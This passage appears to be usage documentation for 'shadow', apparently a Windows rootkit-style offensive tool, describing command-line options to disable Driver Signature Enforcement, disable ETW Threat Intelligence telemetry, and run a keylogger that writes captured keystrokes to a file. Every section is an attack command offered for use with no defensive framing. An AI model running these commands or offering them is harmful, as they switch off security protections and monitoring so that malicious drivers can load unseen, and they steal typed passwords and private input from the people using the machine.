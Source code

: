 ## DSE (Driver Signature Enforcement)

Description: Enable or disable Driver Signature Enforcement.

```powershell
shadow.exe misc dse [OPTIONS]
```
Options:

- `--disable`: Disable DSE.
- `--enable`: Enable DSE.

Example usage:
```powershell
shadow-rs.exe misc dse --disable
```

This command disables Driver Signature Enforcement.

## ETWTI

Description: Enable or disable ETWTI.
```powershell
shadow.exe misc etwti [OPTIONS]
```
Options:
- `--disable`: Disable ETWTI.
- `--enable`: Enable ETWTI.

Example usage:
```
shadow.exe misc etwti --disable
```
This command disable ETWTI.

# Keylogger

Description: Runs a keylogger and saves the output to a specified file.
```powershell
shadow.exe misc keylogger --file <FILE>
```
Options:

- `--file`: The file path where the keylogger output will be stored.

Example usage:
```powershell
shadow.exe misc keylogger --file C:\Path\To\Output.txt
```

This command runs the keylogger and stores the output in `C:\Path\To\Output.txt`.
